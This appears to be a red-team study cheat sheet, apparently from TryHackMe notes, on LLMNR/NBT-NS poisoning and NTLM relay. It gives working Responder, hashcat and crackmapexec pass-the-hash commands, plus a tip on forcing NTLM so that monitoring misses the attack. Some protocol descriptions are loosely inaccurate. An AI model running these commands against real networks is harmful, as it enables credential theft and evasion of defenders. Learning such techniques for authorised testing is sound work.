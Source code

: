 --- ---

<h2>General</h2>

Authentication relays are a type of cyber attack in which an attacker intercepts and modifies authentication requests in order to gain unauthorized access to a system. This type of attack can be exploited by using a tool such as Responder, which is a network utility that is designed to capture and modify authentication requests.

To carry out an authentication relay attack, the attacker first sets up a rogue server and then captures authentication requests that are sent to the legitimate server. The attacker can then modify the authentication requests and send them back to the legitimate server, using the Responder tool to intercept and modify the requests as needed. If the legitimate server is configured to trust the rogue server, it may accept the modified authentication requests and grant the attacker access to the system.

More information
	Responder is a network utility that can be used to capture and modify SMB (Server Message Block) authentication requests in order to carry out SMB relay attacks. In an SMB relay attack, the attacker captures SMB authentication requests that are sent to a legitimate SMB server and modifies them in order to gain unauthorized access to the server. The attacker can use Responder to intercept and modify the authentication requests as needed in order to trick the legitimate SMB server into granting access.
	ㅤ
	LLMNR is a protocol that allows computers on a local network to resolve the hostnames of other computers using multicast DNS. This protocol can be exploited by attackers to perform various types of attacks, such as spoofing the hostname of a legitimate server and tricking clients into connecting to a rogue server.
	ㅤ
	NBT-NS is a protocol that is used to resolve NetBIOS names to IP addresses on a local network. This protocol can be exploited by attackers to perform various types of attacks, such as spoofing the NetBIOS name of a legitimate server and tricking clients into connecting to a rogue server.
	ㅤ
	WPAD is a protocol that allows clients to automatically discover and use a proxy server on a local network. This protocol can be exploited by attackers to perform various types of attacks, such as redirecting client traffic to a rogue proxy server in order to capture sensitive information.

---

<h2>Commands</h2>

Intercepting NetNTLM with Responder
```
sudo responder -I INTERFACE
```

Results
```
[+] Listening for events...
[SMBv2] NTLMv2-SSP Client   : <Client IP>
[SMBv2] NTLMv2-SSP Username : ZA\<Service Account Username>
[SMBv2] NTLMv2-SSP Hash     : <Service Account Username>::ZA:<NTLMv2-SSP Hash>
```

2 Options with the hash you have recover
- Crack the Hash
- Pass the Hash (Authentification)

Crack Hash (Hashcat)
```
hashcat -m 5600 <hash file> <password file> --force
```

Pass the Hash
```
crackmapexec smb IP -u USERNAME -H 32196B56FFE6F45E294117B91A83BF38 -x WIN_COMMAND
```

Extra --> Force Authentification to be made via NTLM
	**Question:** _Is there a difference between_ _`dir \\za.tryhackme.com\SYSVOL` and `dir \\<DC IP>\SYSVOL`_ _and why the big fuss about DNS?_
	ㅤ
	There is quite a difference, and it boils down to the authentication method being used. When we provide the hostname, network authentication will attempt first to perform Kerberos authentication. Since Kerberos authentication uses hostnames embedded in the tickets, if we provide the IP instead, we can force the authentication type to be NTLM. While on the surface, this does not matter to us right now, it is good to understand these slight differences since they can allow you to remain more stealthy during a Red team assessment. In some instances, organisations will be monitoring for OverPass- and Pass-The-Hash Attacks. Forcing NTLM authentication is a good trick to have in the book to avoid detection in these cases.
